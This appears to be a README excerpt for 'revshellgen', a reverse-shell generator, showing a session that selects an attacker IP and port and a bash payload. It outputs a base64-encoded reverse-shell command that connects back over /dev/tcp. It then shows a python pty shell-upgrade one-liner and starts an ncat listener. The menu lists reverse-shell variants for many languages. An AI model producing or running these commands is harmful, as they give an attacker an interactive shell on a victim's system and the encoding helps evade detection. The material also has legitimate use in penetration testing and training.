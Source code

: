 ```bash
$ /opt/revshellgen/revshellgen.py

                         __         __   __
  ____ ___  _  __  ___  / /  ___   / /  / /  ___ _ ___   ___
 / __// -_)| |/ / (_-< / _ \/ -_) / /  / /  / _ `// -_) / _ \
/_/   \__/ |___/ /___//_//_/\__/ /_/  /_/   \_, / \__/ /_//_/
                                           /___/


---------- [ SELECT IP ] ----------

[   ] 172.31.150.94 on eth0
[   ] 172.17.0.1 on docker0
[ x ] 10.10.14.15 on tun0
[   ] Specify manually

---------- [ SPECIFY PORT ] ----------

[ # ] Enter port number : 1337

---------- [ SELECT COMMAND ] ----------

[ x ] unix_bash
[   ] unix_java
[   ] unix_nc_mkfifo
[   ] unix_nc_plain
[   ] unix_perl
[   ] unix_php
[   ] unix_python
[   ] unix_ruby
[   ] unix_telnet
[   ] windows_powershell

---------- [ SELECT ENCODE TYPE ] ----------

[   ] NONE
[   ] URL ENCODE
[ x ] BASE64 ENCODE
[ ! ] Command is now BASE64 encoded!

---------- [ FINISHED COMMAND ] ----------

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS8xMzM3IDA+JjE=

[ ! ] Reverse shell command copied to clipboard!
[ + ] In case you want to upgrade your shell, you can use this:

python -c 'import pty;pty.spawn("/bin/bash")'

---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
```
